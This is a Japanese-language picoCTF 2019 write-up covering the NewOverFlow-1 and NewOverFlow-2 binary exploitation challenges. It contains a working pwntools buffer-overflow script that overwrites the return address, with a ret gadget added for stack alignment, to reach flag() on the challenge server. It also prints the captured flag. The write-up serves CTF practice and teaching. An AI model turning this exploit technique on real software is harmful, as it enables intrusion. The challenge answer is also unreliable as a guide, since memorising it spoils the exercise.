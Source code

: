 Attachment:

- vuln (ELF 64-bit)
- vuln.c

<br />
## Solution
picoCTFのサーバは、Ubuntu 18.04であるところがポイントです。16 byte alignmentしないと解けません。


```Python
#!/usr/bin/env python
from pwn import *

if 1:
    s=ssh(host='2019shell1.picoctf.com', user='', password='')
    s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
    p=s.process('./vuln')

ret = 0x00000000004005de

payload = ''
payload += b'A' * 64
payload += b'B' * 8
payload += p64(ret)  # for stack alignment
payload += p64(0x0000000000400767)  # flag()

p.sendlineafter("flag: \n", payload)
print p.recvall()
```

Flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_bfd48203}`



<br /><br />
<br /><br />
# [Binary Exploitation]: NewOverFlow-2 (250 points)
- - -
## Challenge
> Okay now lets try mainpulating arguments. program.
<br /><br />
Hint: Arguments aren't stored on the stack anymore ;)

Attachment:

- vuln (ELF 64-bit)
- vuln.c

<br />
## Solution
たぶん問題が間違っている気がします。win_fn1()とかいくつか関数が追加されているものの、flag()が残っているので、NewOverFlow-1と全く同じで解けます。
